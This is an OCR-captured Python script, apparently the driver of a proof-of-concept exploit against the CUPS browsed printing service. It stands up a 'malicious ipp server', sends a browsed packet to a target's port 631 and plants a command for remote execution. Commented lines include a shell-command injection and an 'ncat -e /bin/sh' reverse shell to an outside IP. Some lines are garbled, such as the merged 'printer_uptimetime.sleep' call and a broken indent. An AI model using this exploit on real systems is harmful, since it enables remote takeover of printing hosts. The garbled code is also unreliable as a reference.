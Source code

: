 ```python


def wait_until_ctrl_c():
	try:
		while True:
		printer_uptimetime.sleep(300)
	except KeyboardInterrupt:
		return


def run_server(server):
	print('malicious ipp server listening on ', server.server_address)
	server_thread = threading.Thread(target=server.serve_forever)
	server_thread.daemon = True
	server_thread.start()
	wait_until_ctrl_c()
	server.shutdown()


if __name__ == "__main__":
	if len(sys.argv) != 3:
		print("%s <LOCAL_HOST> <TARGET_HOST>" % sys.argv[0])
		quit()

	SERVER_HOST = sys.argv[1]
	SERVER_PORT = 12345

	# "sh -c \'echo $(uname -a) > /tmp/GOD\'"
	# ncat -e /bin/sh 192.168.50.19 4242

	command = "echo 1 > /tmp/I_AM_VULNERABLE"

	server = IPPServer((SERVER_HOST, SERVER_PORT),
	IPPRequestHandler, MaliciousPrinter(command))

	threading.Thread(
		target=run_server,
		args=(server, )
	).start()

	TARGET_HOST = sys.argv[2]
	TARGET_PORT = 631
	send_browsed_packet(TARGET_HOST, TARGET_PORT, SERVER_HOST, SERVER_PORT)

	print("wating ...")

	while True:
		time.sleep(1.0)

```
